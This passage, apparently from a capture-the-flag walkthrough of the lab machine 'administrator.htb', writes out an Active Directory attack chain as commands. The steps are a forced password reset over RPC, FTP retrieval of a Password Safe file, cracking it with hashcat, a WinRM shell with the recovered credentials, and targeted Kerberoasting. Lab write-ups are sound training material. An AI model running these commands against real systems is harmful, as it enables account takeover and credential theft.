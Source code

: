 ```bash
# Reset benjamin's password
net rpc password "benjamin" "0xdf0xdf." -U "administrator.htb"/"michael"%"0xdf0xdf." -S 10.10.11.42

# Verify FTP access (benjamin is in Share Moderators group)
netexec ftp administrator.htb -u benjamin -p 0xdf0xdf.
```

### 5. FTP Access and Password Safe Discovery

```bash
# Connect to FTP
ftp 10.10.11.42
# Login as benjamin:0xdf0xdf.
# Download Backup.psafe3
```

**File Found:** `Backup.psafe3` (Password Safe V3 database)

### 6. Cracking Password Safe

```bash
# Crack the Password Safe master password
hashcat -m 5200 Backup.psafe3 /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

**Master Password:** `tekieromucho`

**Recovered Credentials:**
- alexander: `UrkIbagoxMyUGw0aPlj9B0AXSea4Sw` ❌ (Invalid)
- emily: `UXLCI5iETUsIBoFVTj8yQFKoHjXmb` ✅ (Valid)
- emma: `WwANQWnmJnGV07WQN8bMS7FMAbjNur` ❌ (Invalid)

### 7. Shell as Emily

```bash
evil-winrm -i administrator.htb -u emily -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'
```

🚩 **User Flag:** `142aa43f************************`

### 8. Targeted Kerberoasting: Emily → Ethan

**Attack:** Abuse GenericWrite to perform targeted Kerberoasting

```bash
# Clone and setup targetedKerberoast
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
cd targetedKerberoast/
uv add --script targetedKerberoast.py -r requirements.txt

# Sync time with DC
sudo ntpdate administrator.htb

# Execute targeted kerberoast attack
uv run targetedKerberoast.py -v -d 'administrator.htb' -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
```
